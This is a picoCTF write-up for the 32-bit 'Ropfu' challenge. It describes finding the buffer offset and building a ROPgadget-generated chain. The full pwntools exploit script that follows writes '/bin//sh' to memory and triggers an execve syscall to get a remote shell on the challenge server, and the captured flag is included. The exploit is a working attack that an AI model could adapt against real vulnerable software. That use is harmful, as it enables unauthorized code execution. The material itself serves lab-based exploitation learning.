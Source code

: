 # Ropfu
 
## Challenge Description: What's ROP?

From the name of this challenge, it was pretty clear that ROP was needed to solve the challenge. Interestingly, the binary supplied was **32 bit** instead of **64 bit** in challenges that I've done before. Stitching the gadgets would be slightly different since 32 bit programs generally store their function parameters on the stack instead of the registers for 64 bit.

To solve the challenge, I performed the following: 
* Determined the offset of **28** from GEF
* Referred to this [article](http://shell-storm.org/blog/Return-Oriented-Programming-and-ROPgadget-tool/) on using **ROPGgadget**
* Used **--ropchain** from **ROPGgadget** to generated the payload 
* Made the following adjustments for a payload originally meant for *python2*
  * Imported python3's **pwn** library instead of python2's **struct**
  * Replaced **pack('<I', <opcode>)** with **p32(<opcode>)**

The final payload is as follows: 
  
```python
from pwn import *

e = context.binary = ELF('./vuln', checksec=False)
r = remote('saturn.picoctf.net',56464)

offset = 28
p = b"A" * offset
p += p32(0x080583c9) # pop edx ; pop ebx ; ret
p += p32(0x080e5060) # @ .data
p += p32(0x41414141) # padding
p += p32(0x080b074a) # pop eax ; ret
p += b'/bin'
p += p32(0x08059102) # mov dword ptr [edx], eax ; ret
p += p32(0x080583c9) # pop edx ; pop ebx ; ret
p += p32(0x080e5064) # @ .data + 4
p += p32(0x41414141) # padding
p += p32(0x080b074a) # pop eax ; ret
p += b'//sh'
p += p32(0x08059102) # mov dword ptr [edx], eax ; ret
p += p32(0x080583c9) # pop edx ; pop ebx ; ret
p += p32(0x080e5068) # @ .data + 8
p += p32(0x41414141) # padding
p += p32(0x0804fb90) # xor eax, eax ; ret
p += p32(0x08059102) # mov dword ptr [edx], eax ; ret
p += p32(0x08049022) # pop ebx ; ret
p += p32(0x080e5060) # @ .data
p += p32(0x08049e39) # pop ecx ; ret
p += p32(0x080e5068) # @ .data + 8
p += p32(0x080583c9) # pop edx ; pop ebx ; ret
p += p32(0x080e5068) # @ .data + 8
p += p32(0x080e5060) # padding without overwrite ebx
p += p32(0x0804fb90) # xor eax, eax ; ret

# eax needs to be incremented to 11 for the execve syscall
p += p32(0x0808055e) # inc eax ; ret
p += p32(0x0808055e) # inc eax ; ret
p += p32(0x0808055e) # inc eax ; ret
p += p32(0x0808055e) # inc eax ; ret
p += p32(0x0808055e) # inc eax ; ret
p += p32(0x0808055e) # inc eax ; ret
p += p32(0x0808055e) # inc eax ; ret
p += p32(0x0808055e) # inc eax ; ret
p += p32(0x0808055e) # inc eax ; ret
p += p32(0x0808055e) # inc eax ; ret
p += p32(0x0808055e) # inc eax ; ret

# Invoke a system call and execute our code
p += p32(0x0804a3d2) # int 0x80

r.sendline(p)
r.interactive()
```

Running the payload above produced the flag.


FLAG: `picoCTF{5n47ch_7h3_5h311_c6992ff0}`

